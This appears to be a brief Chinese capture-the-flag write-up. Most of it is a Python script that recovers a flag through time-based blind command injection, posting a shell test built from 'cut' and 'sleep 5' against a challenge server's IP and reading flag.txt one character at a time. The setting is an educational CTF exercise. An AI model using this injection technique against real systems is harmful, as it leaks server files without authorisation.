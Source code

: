 看write up才只是懂个大概，解题是这样子的
用如下脚本跑flag，各位看客可以自己读下代码意思。

```
import requests
import string
dic = string.printable
flag = ""
for j in range(1,33):
	for i in range(len(dic)):
		url = "http://120.55.43.255:22712"
		data = {
			"cmd" : '''[ `cut -c '''+str(j)+''' flag.txt` =  "%c" ]  && sleep 5'''%dic[i]
		}
		try:
			r = requests.post(url,data=data,timeout=1)

		except requests.exceptions.ReadTimeout,e:
			flag += dic[i]
			print flag
			break 
```

![在这里插入图片描述](img/cd4237264723bafaa0c64a5b3baa8224.png)